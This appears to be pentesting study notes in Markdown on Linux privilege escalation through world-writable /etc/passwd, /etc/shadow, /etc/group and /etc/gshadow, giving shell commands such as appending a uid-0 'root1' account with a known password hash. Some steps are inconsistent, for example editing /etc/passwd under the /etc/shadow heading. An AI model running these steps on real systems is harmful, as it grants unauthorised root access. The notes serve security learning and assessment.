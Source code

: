 
 
##  **Default Permissions of Important Files in Linux**

#### Understanding file permissions is crucial for privilege escalation and security assessments. Below are the default permissions of critical system files in Linux:

the default permissions of critical system files in Linux:

| **File**       | **Default Permissions** | **Owner** | **Group** | **Purpose**                                     |
| -------------- | ----------------------- | --------- | --------- | ----------------------------------------------- |
| `/etc/passwd`  | `-rw-r--r-- (644)`      | `root`    | `root`    | Stores user account details (but not passwords) |
| `/etc/shadow`  | `-rw------- (600)`      | `root`    | `shadow`  | Stores hashed passwords (only root can access)  |
| `/etc/group`   | `-rw-r--r-- (644)`      | `root`    | `root`    | Stores group information                        |
| `/etc/gshadow` | `-rw------- (600)`      | `root`    | `shadow`  | Stores group passwords (if any)                 |
| `/etc/crontab` | `-rw-r--r-- (644)`      | `root`    | `root`    | System-wide cron jobs                           |
| `/etc/sudoers` | `-r--r----- (440)`      | `root`    | `root`    | Controls sudo access                            |
## Privilege Escalation via sensitive files

### 1. Privilege Escalation through **/etc/passwd**


**If we got write permission for other user on /etc/passwd  then we can create hash and add into it ** 

#####  1.1 check the permission of /etc/passwd
```bash
ls -lha /etc/passwd
```

![](Attachments/attachments/Pasted%20image%2020250221183500.png)

#####  1.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)

##### 1.3 Edit The /etc/passwd  

read  the /etc/passwd file Then 
Clone the root user information edit root to root1 (we can also add only passwd hash for root user)
After that paste into /etc/passwd file and also add the created hash password.( you can use any editor but here I am going to use echo )
```bash
echo 'root1:$1$NBIvZax5$jv3IXEGcWtVxsfayNTv9B0:0:0:root:/root:/bin/bash' >> /etc/passwd 
```

![](Attachments/attachments/Pasted%20image%2020250221182917.png)

Apart of hash we can also use 0 (zero) for empty password 

##### 1.4 Then login with *root1* user using our password 
![](Attachments/attachments/Pasted%20image%2020250221192427.png)

---


### 2. Privilege Escalation through **/etc/shadow**

**If we got write permission for other user on /etc/shadow then we can create hash and add into it or we can go with crack the hash using password cracking tools  ** 

#####  2.1 check the permission of /etc/shadow
```bash
ls -lha /etc/shadow
```

![](Attachments/attachments/Pasted%20image%2020250221190658.png)


#####  2.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)


##### 2.3 Edit The /etc/shadow file 
Replace root hash with our created hash 

```bash
vim /etc/passwd    #will open vim editor then replace root password hash
```

![](Attachments/attachments/Pasted%20image%2020250221192122.png)
![](Attachments/attachments/Pasted%20image%2020250221192032.png)

##### 2.4 Then login with root1 user using our password

```bash
su - root1
```

![](Attachments/attachments/Pasted%20image%2020250221192427.png)


---


### 3. Privilege Escalation through **/etc/group**

**if we got write permission for other user on /etc/group then we can add user into group**
#####  3.1 check the permission of /etc/group
```bash
ls -lha /etc/group
```

![](Attachments/Pasted%20image%2020250221193720.png)


##### 3.2 Edit the /etc/group
Add user into **wheel/sudo** group (if system is debian base then add into sudo group or if system is red-hat base then add into wheel group)
Here I am using debian base system so I'll add user into sudo group 

```bash
vim /etc/group
```

![](Attachments/Pasted%20image%2020250221200113.png)

![](Attachments/Pasted%20image%2020250221200237.png)


##### 3.3  Reset Connection
Firstly we should logout or reset the connection after that we can get root access

```bash
exit
```

![](Attachments/Pasted%20image%2020250221200849.png)

##### 3.4  login with normal user / get Shell
![](Attachments/Pasted%20image%2020250221201128.png)

then get root access using **sudo su** command
```bash
sudo su
```

![](Attachments/Pasted%20image%2020250221201305.png)

---

### 4. Privilege Escalation through **/etc/gshadow**
if we got write permission for other user on **/etc/gshadow** then we can add hash for **sudo/wheel** group to get root access

#####  4.1 check the permission of **/etc/gshadow**
```bash
ls -lha /etc/shadow
```

![](Attachments/Pasted%20image%2020250221204324.png)


#####  4.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)


#####  4.3 edit the /etc/gshadow
edit the **/etc/gshadow** and add generated has for** **sudo/wheel** group. ( according to os *debian = sudo*  or *red-hat = wheel *)

```bash
vim /etc/gshadow
```

![](Attachments/Pasted%20image%2020250221205551.png)
![](Attachments/Pasted%20image%2020250221205227.png)

##### 4.4  login with **sudo / wheel** group 

```bash
sg sudo #acording to os sudo / wheel
```

After that we will get all access 
![](Attachments/Pasted%20image%2020250221210301.png)

Then run **sudo su** command 
```bash
sudo su 
```

![](Attachments/Pasted%20image%2020250221210441.png)
